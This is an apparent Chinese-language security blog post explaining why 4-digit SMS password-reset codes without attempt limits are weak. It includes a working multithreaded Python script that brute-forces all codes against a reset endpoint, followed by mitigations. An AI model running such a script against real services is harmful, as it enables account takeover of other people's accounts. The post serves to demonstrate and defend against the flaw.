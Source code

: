 ```yaml
---
author: ZhgChgLi
categories:
- ZRealm Dev.
date: 2021-03-14T15:57:38.256+0000
description: 使用 Python 展示暴力破解的严重性
image:
  path: /assets/99a6cef90190/1*xtbLIfJ6KELkGYeVCnzSFg.jpeg
last_modified_at: 2024-04-13T16:30:08.749+0000
render_with_liquid: false
tags:
- simplified-chinese
- ios-app-development
- hacker
- web-security
- password-security
- security-token
title: 找回密码之简讯验证码强度安全问题
---
```


### 找回密码之简讯验证码强度安全问题



使用 Python 展示暴力破解的严重性



![Photo by [Matt Artz](https://unsplash.com/@mattartz?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText){:target="_blank"}](/assets/99a6cef90190/1*xtbLIfJ6KELkGYeVCnzSFg.jpeg)



Photo by [Matt Artz](https://unsplash.com/@mattartz?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText){:target="_blank"}



### 前言



本文没什么资安技术含量，单纯是日前在使用某平台网站时的突发奇想；想说顺手测看看安全性，结果发现的问题。



在使用网站、APP 服务的忘记密码找回功能时；一般会有两个选项，一是输入帐号、Email，然后会寄含有 Token 的重设密码页面连结到信箱，点击后打开页面就能重设密码，这部分没什么问题，除非像 [之前那篇](../142244e5f07a/) 文章所说，设计上有漏洞才会有问题。



另一个找回密码的方式是输入绑定的手机号码（多半用在 APP 服务），然后会寄出简讯验证码到手机，完成验证码输入即可重设密码；但为了便利性，多半的服务都是使用纯数字作为验证码，另外也因为在 iOS ≥ 11 之后增加 [Password AutoFill](../948ed34efa09/) 功能，当手机收到验证码后键盘会自动判读并跳出提示。



![](/assets/99a6cef90190/1*f7frmgNsLwW1Q9e9QtAt1A.png)



查找 [官方文件](https://developer.apple.com/documentation/security/password_autofill/about_the_password_autofill_workflow){:target="_blank"} ，苹果并没有给出验证码自动填入的判读格式规则；但我看几乎所有能支援自动填入的服务都是使用纯数字，推测应该是只能用数字不能使用数字英文夹杂的复杂组合。



### 问题



因数字密码的组合存在暴力破解的可能性，尤其是 4 位密码；组合只有 0000~9999，10,000 种组合；使用多个 thread 多台机器就能分组暴力破解。



假设验证请求需要 0.1 秒回应，10,000 个组合 = 10,000 次请求



```
破解所需尝试时间：((10,000 * 0.1) / thread 数) 秒
```



就算不开 thread 也只需要 16 多分种就能尝试出正确的简讯验证码。



> *除密码长度、复杂度不足之外，还有个问题是验证码未设尝试上限、有效期限太长这两个问题。*



### 组合



综合上述，此资安问题常见于 APP 端；因网页服务多半都会在尝试错误多次后加上图形验证码验证或在请求重设密码时需多输入安全问题，增加发送验证请求的困难度；另外网页服务的验证若没有前后端分离，变成每次验证请求都要拿整个网页，拉长请求回应时间。



APP 端因流程设计及方便使用者，多半会简化重设密码流程、有的 APP 甚至是通过手机号码验证就能登入；如果在 API 端没有做防护则会造成资安漏洞。



### 实践



> ⚠️警告⚠️ 本文仅作展示此安全问题的严重性，请勿拿去做坏事。



#### 嗅探验证请求 API



万事都从嗅探开始，这部分可参考之前的文章「 [APP有用HTTPS传输，但资料还是被偷了。](../46410aaada00/) 」、「 [使用 Python+Google Cloud Platform+Line Bot 自动执行例行琐事](../70a1409b149a/) 」第一篇文章看原理建议使用第二篇文章的 [Proxyman](https://proxyman.io/){:target="_blank"} 进行嗅探。



![](/assets/99a6cef90190/1*22uVkKdpDXnwEygDa9lwyA.png)



如果是前后端分离的网站服务也能使用 Chrome -&gt; 检查 -&gt; Network -&gt; 查看在送出验证码后发了什么请求。



![](/assets/99a6cef90190/1*Skm69eJiZKeK4_QUU0wIoQ.png)



**这边假设得到的检查验证码请求是：**



```
POST https://zhgchg.li/findPWD
```



**Response：**



```
{
   "status":fasle
   "msg":"验证错误"
}
```



#### 撰写暴力破解 Python 脚本



crack.py:



```python
import random
import requests
import json
import threading

phone = "0911111111"
found = False
def crack(start, end):
    global found
    for code in range(start, end):
        if found:
            break
        
        stringCode = str(code).zfill(4)
        data = {
            "phone" : phone,
            "code": stringCode
        }

        headers = {}
        try:
            request = requests.post('https://zhgchg.li/findPWD', data = data, headers = headers)
            result = json.loads(request.content)
            if result["status"] == True:
                print("Code is:" + stringCode)
                found = True
                break
            else:
                print("Code " + stringCode + " is wrong.")
        except Exception as e:
            print("Code "+ stringCode +" exception error \(" + str(e) + ")")

def main():
    codeGroups = [
        [0,1000],[1000,2000],[2000,3000],[3000,4000],[4000,5000],
        [5000,6000],[6000,7000],[7000,8000],[8000,9000],[9000,10000]
    ]
    for codeGroup in codeGroups:
        t = threading.Thread(target = crack, args = (codeGroup[0],codeGroup[1],))
        t.start()

main()
```



执行脚本后我们得到：



![](/assets/99a6cef90190/1*jGp69g9H1BjLqq6SdIHRBw.png)



```
验证码等于：1743
```



将 `1743` 带入重设密码更改掉原始密码或直接登入帐号。



> Bigo!



### 解决之道



- 密码重设增加更多资讯验证（如：生日、安全问题）


- 增加验证码长度（如 Apple 6 码数字）、增加验证码复杂度（如果不影响 AutoFill 功能）


- 验证码尝试错误大于 3 次后使其失效，需请使用者重新发送验证码


- 验证码有效时限缩短


- 验证码尝试错误过多次锁定装置、增加图形验证码


- APP 多做 SSL Pining、传输加解密（防止嗅探）



### 延伸阅读



- [揭露一个几年前发现的巧妙网站漏洞](../142244e5f07a/)


- [如何打造一场有趣的工程CTF竞赛](../729d7b6817a4/)


- [APP有用HTTPS传输，但资料还是被偷了。](../46410aaada00/)


- [使用 Python+Google Cloud Platform+Line Bot 自动执行例行琐事](../70a1409b149a/)



有任何问题及指教欢迎 [与我联络](https://www.zhgchg.li/contact){:target="_blank"} 。



*[Post](https://medium.com/zrealm-ios-dev/%E6%89%BE%E5%9B%9E%E5%AF%86%E7%A2%BC%E4%B9%8B%E7%B0%A1%E8%A8%8A%E9%A9%97%E8%AD%89%E7%A2%BC%E5%BC%B7%E5%BA%A6%E5%AE%89%E5%85%A8%E5%95%8F%E9%A1%8C-99a6cef90190){:target="_blank"} converted from Medium by [ZMediumToMarkdown](https://github.com/ZhgChgLi/ZMediumToMarkdown){:target="_blank"}.*
